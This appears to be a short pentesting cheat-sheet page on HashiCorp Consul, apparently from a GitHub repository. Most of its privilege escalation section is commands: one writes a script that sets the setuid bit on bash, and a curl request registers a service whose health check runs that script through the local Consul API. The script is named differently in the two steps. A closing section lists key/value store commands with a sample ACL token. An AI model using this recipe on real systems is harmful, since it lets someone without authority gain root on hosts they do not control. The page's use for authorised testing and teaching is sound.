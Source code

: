 ```yaml
---
title: HashiCorp Consul Pentesting
description: An open-source service networking platform developed by HashiCorp. A default port is 8500.
tags:
    - Privilege Escalation
    - Web
refs:
date: 2022-12-10
draft: false
---
```


## Privilege Escalation

If you have the ACL token (xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxxx),  you may be able to privilege escalation.  
First, create a script which changes the permission of ‘bash’.

```sh
echo 'chmod +s /usr/bin/bash' > /tmp/exploit.sh
```

Then curl.

```sh
curl --header "X-Consul-Token: <ACL-TOKEN>" --request PUT -d '{"ID": "test", "Name": "test", "Address": "127.0.0.1", "Port": 80, "check": {"Args": ["/usr/bin/bash", "/tmp/e.sh"], "interval": "10s", "timeout": "1s"}}' http://127.0.0.1:8500/v1/agent/service/register
```

<br />

## KV (Key/Value) Store

```sh
# Put
consul kv put --token <ACL-TOKEN> key value
consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 path/to/store data
```
